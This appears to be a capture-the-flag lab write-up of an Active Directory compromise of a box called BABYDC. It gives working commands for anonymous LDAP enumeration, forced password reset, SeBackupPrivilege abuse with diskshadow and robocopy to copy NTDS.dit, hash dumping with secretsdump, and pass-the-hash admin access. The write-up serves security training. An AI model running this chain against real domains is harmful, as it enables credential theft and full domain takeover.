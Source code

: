This document provides a step-by-step walkthrough of an Active Directory penetration test on the target machine (BABYDC). The purpose was to enumerate and exploit weaknesses in the environment to gain administrative access.

Tools Used

    Nmap: Network scanning and enumeration
    Netexec (nxc): LDAP and SMB enumeration
    smbpasswd: Password manipulation tool
    Evil-WinRM: Remote access for Windows machines
    Diskshadow: Volume shadow copy manipulation
    Robocopy: File transfer within Windows
    Secretsdump.py: Hash extraction from NTDS.dit
    
Summary of Attacks

    Network Enumeration: Identified open ports and services running on the target.
    LDAP Enumeration: Retrieved sensitive user information via anonymous bind.
    Password Change: Identified a valid user and changed their password to gain access.
    Privilege Escalation: Leveraged the SeBackupPrivilege to extract sensitive data (NTDS.dit and SYSTEM hive).
    Hash Dumping and Admin Access: Extracted NTLM hashes to gain administrative access and retrieve the final flag.
    Nmap de la box :

Enumeration

Using Nmap, open ports and services were identified:

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-13 01:11:48Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal 
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows
```


![i](Images/20241213023917.png)

A connection test revealed a valid connection via SMB without authentication but failed user or share enumeration:

![i](Images/20241213024456.png)

Anonymous LDAP bind returned useful information about domain users:

![i](Images/20241213024523.png)

LDAP Enumeration

Using the get-desc-users module in Netexec, further details about user accounts were retrieved:

nxc ldap 10.10.126.10 -u "" -p "" -M get-desc-users  

![i](Images/20241213024833.png)

4.3 Password Change and Privilege Verification

An error message revealed that Caroline.Robinson had a valid account but required a password reset. 

![i](Images/20241213031525.png)
 
The password was reset to Password123 using:
smbpasswd -r 10.10.126.10 -U caroline.robinson 

Access was verified, and user privileges were checked using Netexec and the whoami /priv command:

nxc winrm 10.10.126.10 -u caroline.robinson -p "Password123" -X "whoami /priv" 

![i](Images/20241213061303.png)

The SeBackupPrivilege was identified, enabling access to sensitive files.
A shadow copy was created using Diskshadow, and the NTDS.dit and SYSTEM hive were extracted:

    Create a shadow copy:
raj.dsh contents:
```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

```
unix2dos raj.dsh
```

Upload and execute commands via Evil-WinRM:
```
cd C:\Temp
upload raj.dsh
diskshadow /s raj.dsh
robocopy /b z:\windows\ntds . ntds.dit
```


```
reg save hklm\system c:\Temp\system
```

Download files locally:

```
download ntds.dit
download system
```

Hash Extraction and Privilege Escalation

The Secretsdump tool was used to extract NTLM hashes:
```
secretsdump.py -ntds ntds.dit -system system.hive LOCAL
```

![i](Images/20241213062005.png)

Using the NT hash for the administrator account, final access was gained, and the last flag retrieved:

 nxc winrm 10.10.126.10 -u administrator -H ee4457ae59f1e3fbd764e33d9cef123d -X "cat C:\Users\Administrator\Desktop\root.txt"
 
![i](Images/20241213062049.png)
